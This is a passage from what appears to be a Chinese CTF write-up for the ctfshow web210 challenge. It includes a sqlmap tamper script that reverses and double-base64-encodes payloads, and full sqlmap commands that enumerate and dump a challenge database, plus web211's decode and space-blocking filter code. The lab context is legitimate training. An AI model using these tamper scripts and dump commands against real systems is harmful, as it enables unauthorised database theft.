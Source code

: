 正确：

反转 =》 加密 = 》 反转 =》 加密

tamper编写，show-web210.py

```python
#!/usr/bin/env python

import base64
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
  # 反转 =》 加密 = 》 反转 =》 加密
    return base64.b64encode(base64.b64encode(payload[::-1].encode()).decode()[::-1].encode()).decode()
```

```bash
# 爆数据库 ctfshow_web
sqlmap -u "https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web210.py --dbs 
# 爆表 ctfshow_flavi
sqlmap -u "https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web210.py --dbs -D ctfshow_web --tables
# 爆字段 ctfshow_flagxx
sqlmap -u "https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web210.py --dbs -D ctfshow_web --tables -T ctfshow_flavi --columns  
# 爆数据 
sqlmap -u "https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://37d82c6d-b413-42dd-a72c-4b7d6aa472e8.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=show-web210.py --dbs -D ctfshow_web --tables -T ctfshow_flavi --columns -C ctfshow_flagxx --dump
```

## web 211

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
function waf($str){
    return preg_match('/ /', $str);
}
```
